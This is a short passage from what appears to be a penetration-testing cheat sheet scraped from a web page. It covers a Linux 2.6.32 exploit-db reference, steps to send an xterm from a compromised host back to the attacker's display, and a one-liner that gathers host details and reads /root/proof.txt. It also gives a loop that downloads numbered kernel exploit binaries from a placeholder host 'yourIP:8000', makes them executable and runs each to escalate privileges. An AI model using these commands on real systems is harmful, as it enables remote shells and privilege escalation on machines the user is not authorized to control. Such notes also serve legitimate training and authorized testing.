 $  gcc -m64 -o output hello.c # (64 bit)

Linux 2.6.32

https://www.exploit-db.com/exploits/15285/

Open an xterm remotely

First, run an xserver in your machine

$ Xnest :1

Then, bind it to xterm, again in your machine:

$ xterm -display 127.0.0.1:1

Finally, run the follwing in the remote machine:

$ /usr/openwin/bin/xterm -display yourip:1

Get proof

$ echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "

Elevation in 2.6.x:

$ for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://yourIP:8000/$a; chmod +x $a; ./$a; id; done

new Highlighter().run(document); (function(i,s,o,g,r,a,m){i\['GoogleAnalyticsObject'\]=r;i\[r\]=i\[r\]||function(){ (i\[r\].q=i\[r\].q||\[\]).push(arguments)},i\[r\].l=1\\*new Date();a=s.createElement(o), m = s.getElementsByTagName(o)\[0\];a.async=1;a.src=g;m.parentNode.insertBefore(a,m) })(window,document,'script','https://www.google-analytics.com/analytics.js','ga'); ga('create', 'UA-106217827-1', 'auto'); ga('send', 'pageview');
